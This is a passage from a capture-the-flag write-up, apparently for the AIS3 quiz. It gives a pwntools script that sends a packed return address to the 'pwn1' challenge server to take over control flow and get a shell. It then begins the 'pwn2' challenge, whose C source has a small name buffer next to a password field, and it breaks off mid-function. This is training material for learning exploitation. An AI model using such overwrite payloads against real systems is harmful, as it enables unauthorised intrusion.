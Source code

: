 ```python=

if __name__ == '__main__':
    binary = 'pwn1.bin'
    HOST = 'quiz.ais3.org'
    PORT = 9561
    mode = raw_input('mode:\n')
    if mode == 'r\n':
        r = remote(HOST,PORT)
    else:
        r = process('./'+binary)
    raw_input('time to attach')
    payload = p32(0x08048613)
    print payload
    r.sendline(payload)
    r.interactive()
```
拿到後路徑在root
經過一番尋找，flag放在 home/pwn1/flag

###### flag : 我忘記把flag存下來了

pwn　2 (2pt)
---


#### Description
Find the flag!

Appjailuncher.exe /port:56746 /key:flag.txt /timeout:30000000 pwn2.exe

telnet://quiz.ais3.org:56746

AppJailLauncher.exe pwn2.cpp pwn2.exe pwn2.pdb

#### Solution
他有給c code
```clike=
// ais3_pwn1.cpp : �w�q�D���x���ε{�����i�J�I�C
//

#include "stdafx.h"
#include <windows.h>  
#include <stdio.h>  
#include <stdlib.h>

struct user {
    char name[20];
    int pass;
} ais3_user;

void menu() {
    puts("=================================");
    puts(" 1. Capture The Flag ");
    puts(" 2. Exit ");
    puts("=================================");
    printf("Your choice :");
};

void readflag() {
    char buf[100];
    FILE *fp;
    fp = fopen("./flag.txt", "rb");
    if (fp) {
        fread(buf, 40, 1, fp);
        fclose(fp);
        for (int i = 0; i < 40; i++) {
```